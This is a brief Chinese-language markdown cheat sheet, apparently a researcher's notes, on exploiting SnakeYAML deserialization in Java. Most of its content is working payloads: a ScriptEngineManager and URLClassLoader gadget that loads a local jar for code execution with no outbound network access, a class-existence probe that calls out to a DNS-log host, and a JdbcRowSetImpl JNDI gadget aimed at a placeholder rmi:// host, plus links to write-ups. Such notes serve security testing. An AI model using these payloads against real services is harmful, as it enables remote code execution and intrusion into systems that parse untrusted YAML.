 # snakeyaml

## 不出网利用
>通过写文件然后本地加载rce

//todo 写一个工具 去完成   已经完成了


https://xz.aliyun.com/t/10655

限制了class,不过存在class bean中有object属性  参考： https://mp.weixin.qq.com/s/7HJXfNibY9Z3DPGarTqyZQ

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```

## 判断类存在
```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```

## 其他链 一般是jndi

```
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: "rmi://xxxx", autoCommit: true}
```

参考： https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E
